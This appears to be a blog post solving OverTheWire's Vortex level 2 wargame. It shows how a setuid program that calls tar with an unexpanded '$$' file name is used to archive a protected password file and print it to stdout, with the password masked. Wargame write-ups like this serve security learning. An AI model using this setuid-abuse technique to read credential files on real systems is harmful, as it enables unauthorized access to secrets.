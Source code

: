 Title: OverTheWire: Vortex Level2
Author: Victor
Date: 2013-05-02
Tags: coding, security, wargames, vortex, appsec
Category: blog

Solution for [level2][1]:

Here is the code:

~~~.c
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>


int main(int argc, char **argv)
{
        char *args[] = { "/bin/tar", "cf", "/tmp/ownership.$$.tar", argv[1], argv[2], argv[3] };
        execv(args[0], args);
}
~~~

**$$** expands to the process ID of the shell.

~~~.shell
$ echo $$
24489
~~~

Let's make some observations:

~~~.shell
vortex2@melissa:~$ ls -l /etc/vortex_pass/vortex3 
-r-------- 1 vortex3 vortex3 10 2011-11-14 18:15 /etc/vortex_pass/vortex3
vortex2@melissa:~$ ls -l /vortex/vortex2
-r-sr-x--- 1 vortex3 vortex2 7134 2011-11-13 23:07 /vortex/vortex2
~~~

The password file is owned by **vortex3**. And the binary **/vortex/vortex3** is allowed to read this file. So we are allowed to tar this file using the binary. The binary itself expects 3 arguments. There we go:

~~~.shell
vortex2@melissa:/etc/vortex_pass$ /vortex/vortex2 vortex3 vortex3 vortex3 
/bin/tar: U\211\345WVS\350Z: Cannot stat: No such file or directory
/bin/tar: Exiting with failure status due to previous errors
vortex2@melissa:/etc/vortex_pass$ ls -l '/tmp/ownership.$$.tar'
-rw-r--r-- 1 vortex3 vortex2 10240 2012-10-31 18:59 /tmp/ownership.$$.tar
vortex2@melissa:/etc/vortex_pass$ cd /tmp/****
vortex2@melissa:/tmp/****$ cp '/tmp/ownership.$$.tar' .
cp: cannot create regular file `./ownership.$$.tar': Permission denied
~~~

Obviously we are not allowed to copy/untar the file. What about STDOUT?

~~~.shell
$ tar xf '/tmp/ownership.$$.tar' -O
*******
~~~

Password revealed. Next level!

 [1]: http://www.overthewire.org/wargames/vortex/vortex2.shtml
